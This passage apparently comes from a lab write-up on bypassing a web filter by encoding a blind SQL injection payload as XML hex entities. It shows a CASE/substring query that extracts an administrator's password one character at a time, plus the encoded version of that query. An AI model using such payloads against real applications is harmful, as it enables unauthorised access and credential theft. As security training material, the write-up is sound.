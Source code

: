 It seems to be correct:



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/15.png)

We will try to get the first character of the password with:

```
SELECT CASE WHEN (substring((SELECT password FROM users where username = 'administrator'),1,1)='a') THEN 1 ELSE 2 END
```


```
&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x43;&#x41;&#x53;&#x45;&#x20;&#x57;&#x48;&#x45;&#x4e;&#x20;&#x28;&#x73;&#x75;&#x62;&#x73;&#x74;&#x72;&#x69;&#x6e;&#x67;&#x28;&#x28;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;&#x20;&#x77;&#x68;&#x65;&#x72;&#x65;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x3d;&#x20;&#x27;&#x61;&#x64;&#x6d;&#x69;&#x6e;&#x69;&#x73;&#x74;&#x72;&#x61;&#x74;&#x6f;&#x72;&#x27;&#x29;&#x2c;&#x31;&#x2c;&#x31;&#x29;&#x3d;&#x27;ZZZZZZZZZZ&#x27;&#x29;&#x20;&#x54;&#x48;&#x45;&#x4e;&#x20;&#x31;&#x20;&#x45;&#x4c;&#x53;&#x45;&#x20;&#x32;&#x20;&#x45;&#x4e;&#x44;
```

It starts with “h”:



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/16.png)

Finally I got the administrator's password:



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/17.png)
